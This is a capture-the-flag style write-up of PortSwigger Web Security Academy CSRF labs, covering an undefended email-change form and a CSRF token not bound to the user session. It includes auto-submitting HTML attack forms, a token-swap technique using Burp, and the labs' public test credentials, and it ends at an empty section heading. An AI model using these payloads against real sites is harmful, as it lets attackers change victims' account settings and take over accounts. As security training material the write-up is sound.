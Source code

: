 # Cross-site request forgery (CSRF)

Check detail at [here](https://portswigger.net/web-security/csrf)

Type of attack in this example
 - [A relevant action](#a-relevant-action)
 - [Cookie-based session handling](#cookie-based-session-handling)
 - [No unpredictable request parameters](#no-unpredictable-request-parameters)

## A relevant action

[Lab 1](https://portswigger.net/web-security/csrf/lab-no-defenses)

Description of this lab: craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server, we can log in with credentials: `wiener:peter` and this lab's email change functionality is vulnerable to CSRF

We found that when we log in successfully, this has email change field that we can exploit. Moreover, there is an exploit server in this lab, use this HTML in body field

```html
    <form action="https://0a4d00870370bbf4c1d27dfb00060001.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="test&#64;example&#46;com">
    </form>
    <script>
      document.forms[0].submit();
    </script>
```

Clicking store button, then verifying that the exploit works, clicking "View exploit" and check the resulting HTTP request and response. Clicking "Deliver to victim" to solve the lab.

## Cookie-based session handling

[Lab 4](https://portswigger.net/web-security/csrf/lab-token-not-tied-to-user-session)

Description of this lab: use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address, and two accounts on the application that you can use to help design your attack `wiener:peter; carlos:montoya`

Note: This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't integrated into the site's session handling system.

We will need 2 browsers for this lab:
 - Browser 1: log in with `carlos:montoya` and change email, website will generate valid token in payload, like this `email=demo%40demo.demo&csrf=WTvWupXdfWayFeCnkI61Wjz40gY3GaVf`. However, every token can use only one time, so if you want to use token, reload page again. Check the code, and we can see that:

 ```html
    <form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
        <label>Email</label>
        <input required="" type="email" name="email" value="">
        <input required="" type="hidden" name="csrf" value="WTvWupXdfWayFeCnkI61Wjz40gY3GaVf">
        <button class="button" type="submit"> Update email </button>
    </form>
 ```

 - Browser 2: log in with `wiener:peter`, send the update email request into Burp Intercept and replace its token by token of browser 1, you can see this modified request changing wiener's email.
 Go back to browser 1, and reload page, copy its token in code, then using this in exploit server with below script.

 ```html
    <form action="https://0a2b005504f730f7c2a8028100f2007c.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="test&#64;example&#46;com">
        <input type="hidden" name="csrf" value="ORVMYq9vt8rwzDakiea2fjBT3kqPT4iy">
    </form>
    <script>
      document.forms[0].submit();
    </script>
 ```

## No unpredictable request parameters

